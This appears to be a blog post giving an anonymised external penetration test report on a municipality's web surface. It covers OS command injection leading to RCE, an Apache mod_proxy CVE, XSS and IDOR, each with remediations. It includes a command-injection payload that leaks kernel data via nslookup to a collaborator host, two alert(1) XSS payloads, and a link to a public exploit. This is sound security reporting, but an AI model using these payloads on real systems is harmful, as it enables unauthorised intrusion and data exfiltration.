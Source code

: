 ```yaml
---
layout: post
title: 'Municipality External PT'
tags:
 - web
 - real-activity
hero: https://images.unsplash.com/photo-1462206092226-f46025ffe607?ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D&auto=format&fit=crop&w=1474&q=80
overlay: blue
---
```


Please note that for this proof of concept, while images and step-by-step reproduction tips are fundamental for evidentiary purposes, they will not be supplied. Furthermore, in adherence to our commitment to privacy and compliance with non-disclosure agreements, all URLs and functionalities within this assessment have been anonymized. {: .lead} <!–-break-–>

# Municipality

## Type of activity and objectives
The objective of this engagement was to conduct an external penetration assessment for the organization. The aim was to identify potential vulnerabilities that could potentially be exploited from outside sources, with the goal of preventing unauthorized access and compromise.
## Scope of evaluation
The evaluation was focused on the external surface of the organization. This scope encompassed assessing the security and potential vulnerabilities within this external surface.
## Executive Summary
The security assessment conducted on the target environment revealed several significant findings that require immediate attention:

1. **OS Command Injection to Remote Code Execution (RCE):**
   The team successfully exploited an OS command injection vulnerability that led to remote code execution within the application. This critical finding poses a severe risk to the security and functionality of the application, as attackers could potentially execute arbitrary code and gain unauthorized access.

2. **CVE-2021-40438:**
   During the assessment, the team identified the presence of CVE-2021-40438, a known security vulnerability. This finding indicates that the application might be susceptible to a specific type of attack, potentially allowing attackers to compromise its integrity, confidentiality, or availability.

3. **Cross Site Scripting (XSS):**
   The team discovered instances of Cross-Site Scripting (XSS) vulnerabilities within the application. These vulnerabilities can be exploited to inject malicious scripts into web pages viewed by other users, compromising their browsing experience and potentially leading to data theft or unauthorized actions.

4. **Insecure Direct Object References (IDOR):**
   The assessment identified instances of Insecure Direct Object References (IDOR) vulnerabilities within the application. These vulnerabilities can enable attackers to access sensitive resources or data that they should not have access to, potentially leading to unauthorized information disclosure or data manipulation.

Failing to address these vulnerabilities could result in unauthorized access, data breaches, and potential financial and reputational damages. It is strongly recommended that the organization takes prompt actions to remediate these vulnerabilities and enhance the overall security posture of the external surface.
## Finding Summary
- OS cmd injection to RCE
- CVE-2021-40438
- Cross Site Scripting (XSS)
- IDOR
## Risk Impact Graph with CVSS Scores

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/id27.png)

## Vulnerability Types Distribution

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/id28.png)

## Attack storyline and findings### OS cmd injection to RCE
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
The following path was founded vulnerable: /password/index.php

- Detection of OS Injection: Using the payload `values%5Bpassword%5D=test|nslookup $(uname -r).collab.com.&`, the attacker identifies the presence of OS command injection by leveraging the nslookup command to execute the uname -r command, which retrieves the kernel version of the target system.

- Achieving Remote Code Execution: With the knowledge of the OS injection vulnerability, the attacker proceeds to execute arbitrary commands to gain control over the target system. In this PoC, the attacker leverages a crafted Python shell payload to establish a reverse shell connection, allowing them to remotely interact with the compromised system.
#### Remediations
- Implement Input Validation and Sanitization: Apply strict input validation and sanitization on all user-supplied inputs, especially those that are used in executing commands or constructing queries. This includes both form fields and URL parameters. Use input validation libraries and functions that reject or sanitize any suspicious or malicious inputs.

- Use Parameterized Queries: If database queries are involved, switch to using parameterized queries or prepared statements to prevent SQL injection vulnerabilities. This also helps mitigate OS command injection if the query construction is involved.

- Whitelisting Allowed Commands: Maintain a whitelist of allowed commands and sanitize input to ensure that only authorized commands can be executed. Validate user inputs against this whitelist before using them in command execution.
### CVE-2021-40438
- CVSS Vector: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
A crafted request uri-path can cause mod_proxy to forward the request to an origin server choosen by the remote user. This issue affects Apache HTTP Server 2.4.48 and earlier.

The following was used for exploitation: https://github.com/Kashkovsky/CVE-2021-40438 .
#### Remediations
- Update the Apache HTTP Server

### Cross Site Scripting (XSS)
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
#### Proof of Concept (PoC) 
The provided Proof of Concept (PoC) demonstrates Cross-Site Scripting (XSS) vulnerabilities within a web application. XSS is a type of security vulnerability that occurs when an application does not properly sanitize or validate user input before rendering it on a web page. This allows an attacker to inject malicious scripts into the application, which are then executed within the context of other users' browsers.

In the context of the PoC:

- `authRequestCode=</script><script>alert(1)</script>`
Here, the value provided for the authRequestCode parameter includes a script tag </script> to prematurely close the preceding script tag, followed by another script tag <script> that contains the JavaScript code alert(1). This payload attempts to execute an alert box with the message "1" when the vulnerable page is loaded by another user.

- `lang=asas';alert(1)//34`
In this payload, the lang parameter is set to a string asas', followed by the alert(1) JavaScript code. The //34 at the end of the payload appears to be an attempt to comment out the rest of the parameter value. This payload aims to inject an alert box in a similar manner to the previous payload.
#### Remediations
- Input Validation: Validate and sanitize all user inputs on the server-side before processing or rendering them. Use input validation libraries or frameworks to ensure that only expected and safe characters are allowed.

- Contextual Escaping: Apply context-specific escaping for user-generated content based on where it will be rendered (e.g., HTML, URL, JavaScript). Use appropriate escaping functions to ensure data is treated as data and not code.

- Output Encoding: Encode user-generated content and other dynamic data before rendering it in HTML, JavaScript, or other contexts. Use appropriate encoding functions for the specific context (e.g., HTML entities, JavaScript escaping) to prevent scripts from being executed.
### IDOR
- CVSS Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
#### Proof of Concept (PoC) 
During the test it was possbile ot view other user submiteted forms via an IDOR in the folling In this Proof of Concept (PoC), a vulnerability related to Insecure Direct Object References (IDOR) was identified within the web application. The specific parameter being tested is "?formId=15394." By manipulating this parameter and supplying different values, the attacker was able to access and view forms submitted by other users, potentially compromising their sensitive data.

An Insecure Direct Object Reference occurs when an application exposes a reference to an internal implementation object, such as a file, directory, or database record, without proper authorization checks. In this case, the application failed to validate the user's authorization before providing access to form submissions associated with a specific form ID.
#### Remediations
- Implement Proper Authorization Checks: Ensure that access controls and authorization checks are implemented for all resources and functionalities. Verify that users have the necessary permissions to access specific objects or data before providing them with access.

- Use Indirect Object References: Avoid directly exposing internal object references such as database IDs or filenames to users. Instead, use indirect references or tokens that are validated and mapped to the corresponding objects on the server side.

- Implement Contextual Access Control: Apply access controls based on the context of the user, their role, and the data they are allowed to access. This includes ensuring that users can only access their own data or data they are authorized to view.

